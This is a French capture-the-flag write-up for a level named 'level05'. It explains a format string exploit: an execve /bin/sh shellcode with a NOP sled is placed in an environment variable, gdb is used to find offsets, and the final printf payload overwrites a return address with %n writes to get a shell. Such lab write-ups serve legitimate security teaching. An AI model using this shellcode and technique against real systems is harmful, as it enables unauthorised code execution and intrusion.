 # Writeup

Lorsque nous arrivons au level5, nous constatons qu'il n'y a pas de protection
sur le binaire. Nous le lancons une premiere fois, et nous voyons qu'un input
est attentu sur l'entree standard.

Apres avoir lance le binaire sous gdb, nous constatons que le programme est
relativement simple: apres avoir lu notre sur l'entree standard dans un buffer
de 100 char, le programme inspecte chaque caractere, et si celui ci est
majuscule, effectue un XOR de 0x20, ce qui a pour consequence de le transformer
en minuscule.Apres cette operation, le buffer est directement envoye a printf,
ce qui nous ouvre la porte pour un exploit de format string.

Nous avons deux contraintes: la premiere est quele buffer etant modifie avec des
XOR, nous ne pouvons pas y placer notre shellcode. La seconde est que le main
quitte le programme via un exit, et non par un return. Avec notre format string,
nous pouvons ecrire a loisir dans la memoire. Nous avons donc deux options: soit
modifer l'appel a exit dans la global offset table, soit manipuler la valeur
qu'utilisera le printf pour retourner de son appel et revenir au main. Dans les
deux cas, nous ferrons passer notre shellcode par l'environnement.

Dans un premier temps, pour avoir le decalage d'adresse de le plus minime
possible, nous chargeons notre shellcode dans l'environnement avec un nopsled.

> echo -ne
>'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'
>/tmp/shellcode.bin > > export SLEDCODE=$(python -c 'print "\x90"*128')$(cat
>/tmp/shellcode.bin)

Nous determinons ensuite ou se situe notre chaine de caractere
dans la stack:

> 'print "aaaa " + "%08x " * 20' | ./level05

Notre adresse a ecrire se trouvera donc au 10eme element. Comme nous allons
ecrire une adresse, nombre assez eleve, nous choisisons d'ecrire en deux
fois. Nous utiliserons donc les positions 10 et 11, et passerons deux adresses
dans notre format string.

> '[Adresse Cible] + [Adresse cible + 2] + %[2 Premiers bytes - 8]x + "%10$n"
> \+ %[2 Derniers bytes - 2 Premiers bytes]x + "%11$n"

Pour recuperer l'adresse qui nous interesse, il nous suffit d'aller regarder le
retour de printf dans gdb

> (gdb) b *printf+50
> (gdb) x/a $esp

Nous recuperons notre adresse cible. Nous en profitons pour recuperer l'adresse
du milieu de notre sled:

> (gdb) x/12s *((char **) environ)

Le calcul a effectuer pour recuprer le millieu de notre nodsled est le suivant:

> & == ADRESSE
> [&SLEDCODE] + (([&VARIABLE SUIVANTE] - [&SLEDCODE]) / 2)

Nous prennons donc cette adresse, la separons en deux parties que nous calculons
selon la methode decrite plus haut.

Fort de tout ces elements, nous avons la commande finale:

> (python -c 'print "\xbc\xd5\xff\xff" + "\xbe\xd5\xff\xff" + "%55528x" + "%10$n" + "%9999x" + "%11$n"'; cat -) | ./level05
